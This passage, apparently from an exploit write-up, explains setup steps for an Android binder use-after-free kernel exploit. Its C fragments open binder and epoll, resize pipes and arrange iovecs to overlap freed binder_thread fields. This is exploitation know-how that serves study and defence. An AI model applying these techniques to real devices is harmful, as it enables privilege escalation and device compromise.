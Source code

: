 #### Allocate binder and epoll struct

```c
int binder_fd = open_binder();
int epfd = create_epoll();
```

We need these so that it can create `struct binder_thread` and `struct eventpoll`

#### Create pipes

```c
pipe(pipe_fd);
fcntl(pipe_fd[0], F_SETPIPE_SZ, PAGE_SIZE)
```

Create a `pipe` so we can have IPC between `parent` and `child` from `fork`. Then set pipe size to PAGE_SIZE (0x1000). For each read, it will be PAGE_SIZE.

#### Set iovecs

```c
iovecs[10].iov_base = m_lock_page; // binder_thread->wait.lock
iovecs[10].iov_len = PAGE_SIZE; // binder_thread->wait.head.next
iovecs[11].iov_base = (void *)0x41414141; // binder_thread->wait.head.prev
iovecs[11].iov_len = PAGE_SIZE;
```

![](/assets/img/2023-05-27-16-42-56.png)
